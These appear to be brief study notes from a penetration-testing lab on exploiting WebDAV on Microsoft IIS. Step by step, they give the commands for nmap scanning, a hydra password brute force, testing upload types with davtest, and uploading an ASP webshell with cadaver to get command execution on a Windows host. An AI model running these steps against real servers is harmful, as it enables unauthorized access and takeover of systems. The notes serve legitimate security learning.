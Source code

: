 #### WebDAV vulnerabilities in microsotf IIS
- webdav is a protocol to update,delete,edit files
- microsoft IIS is a web server thats allow handling webdav also with others webapp.

#### procudures
- nmap -sS -sV 10.2.17.125 [by this we can confirm webDAV is running]
- nmap -sS -sV  --script=http_enum 10.2.17.125 [webDAV folders]
- visits 10.2.17.125/webdav in browser
- hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/

#### davtest 
- kali linux tool
- davtest -auth bob:password_321123 -url http://10.2.17.124/webdav 
- this tools shows what kind of files we can uplaod,and executes in webdav folder
- 
#### cadaver
- kali linux tool
- cadaver http://10.2.17.124/webdav
- put /usr/share/webshells/asp/webshell.asp [from davtest tool we found asp file can be uploaded and executed]
- the above command give me shell for windows machine where we can execute windows command

#### kali linux build in webshell directories
- /usr/share/webshells/



